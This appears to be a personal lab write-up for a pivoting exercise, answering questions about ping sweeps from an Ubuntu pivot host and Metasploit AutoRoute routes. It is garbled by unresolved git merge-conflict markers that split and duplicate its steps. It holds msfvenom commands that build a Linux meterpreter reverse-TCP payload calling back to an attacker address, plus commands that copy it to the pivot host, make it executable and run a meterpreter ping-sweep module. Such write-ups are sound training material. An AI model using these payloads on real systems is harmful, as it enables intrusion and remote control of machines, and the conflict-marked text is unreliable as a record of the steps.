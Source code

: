 ### 1) What two IP addresses can be discovered when attempting a ping sweep from the Ubuntu pivot host?


=======
ssh ubuntu@10.129.244.34
```

>>>>>>> 51abefc3987c8ed7ca6ced79ddfbcd2a83db9b8c
Follow the steps to perform the ping sweep, like [[#Ping Sweep via For Loop|Ping For Loop]]  

Create the msfvenom payload:
```go
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.15.252 -f elf -o backupjob LPORT=8080
```

<<<<<<< HEAD
scp the file to the ubuntu pivot host
```go
scp backupjob ubuntu@10.129.90.142:\tmp
```

=======
>>>>>>> 51abefc3987c8ed7ca6ced79ddfbcd2a83db9b8c
I used the meterpreter module `ping_sweep`
```go
run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```

The two IP addresses are:
<<<<<<< HEAD
^answer1
=======
>>>>>>> 51abefc3987c8ed7ca6ced79ddfbcd2a83db9b8c
```go
172.16.5.19
```

```go
172.16.5.129
<<<<<<< HEAD
```

### 2) Which of the routes that AutoRoute adds allows 172.16.5.19 to be reachable from the attack host?

Reference the [[#^95727f|autoroute]] 

==Starting the attack chain over since I'm restarting this session on a different day==

Create payload
```go
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.53 -f elf -o backupjob LPORT=8080
```

Set executable permissions on `backupjob` file.
```go
sudo chmod +x backupjob
```
